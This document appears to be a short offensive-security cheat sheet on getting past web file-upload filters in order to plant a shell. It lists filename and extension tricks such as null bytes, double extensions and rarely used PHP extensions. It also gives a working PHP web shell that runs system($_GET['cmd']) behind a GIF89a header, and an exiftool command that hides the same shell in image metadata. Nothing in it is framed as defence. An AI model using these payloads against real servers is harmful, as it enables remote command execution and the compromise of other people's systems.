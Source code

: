 ## General

Upload shell to make reverse shell

## Bypass file upload filtering

- Rename it
    - upload it as shell.php.jpg
- Blacklisting bypass, change extension
    - `php phtml, .php, .php3, .php4, .php5, and .inc`
    - bypassed by uploading an unpopular php extensions. such as: `pht, phpt, phtml, php3, php4, php5, php6`
    - asp `asp, .aspx`
    - perl `.pl, .pm, .cgi, .lib`
    - jsp `.jsp, .jspx, .jsw, .jsv, and .jspf`
    - Coldfusion `.cfm, .cfml, .cfc, .dbm`
- Whitelisting bypass
    - Bypassed by uploading a file with some type of tricks,
    - Like adding a null byte injection like (`shell.php%00.gif` ).
        Or by using double extensions for the uploaded file like ( `shell.jpg.php`)
- GIF89a;
    - If they check the content. Basically you just add the text "GIF89a;" before you shell-code.
        GIF89a;
        
	        <?
	        
	        system($_GET['cmd']);//or you can insert your complete shell code
	        
	        ?>
        
- In image
    - manipulate data
        
			exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>'